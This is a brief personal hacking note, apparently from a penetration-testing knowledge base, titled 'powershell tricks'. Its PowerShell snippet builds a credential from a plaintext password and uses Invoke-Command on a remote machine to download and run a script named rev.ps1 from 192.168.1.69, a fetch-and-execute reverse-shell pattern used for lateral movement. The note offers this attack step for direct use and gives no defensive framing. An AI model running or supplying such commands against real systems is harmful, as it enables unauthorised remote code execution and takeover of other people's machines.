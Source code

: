 # powershell tricks run powershell commands as another user with SecureString credential
```powershell
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\user', $pass)
hostname
invoke-command -Computer ComputerHostname -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```
change ComputerHostname.
`-ConfigurationName ...` parameter might be required to run commands for special restricted user permissions

# References
- [20221003150475](/zet/20221003150475/README.md) powershell tricks run powershell commands as another user
- ~/kb/hacking/powershell/powershell-tricks.md

Tags:
    #assorted
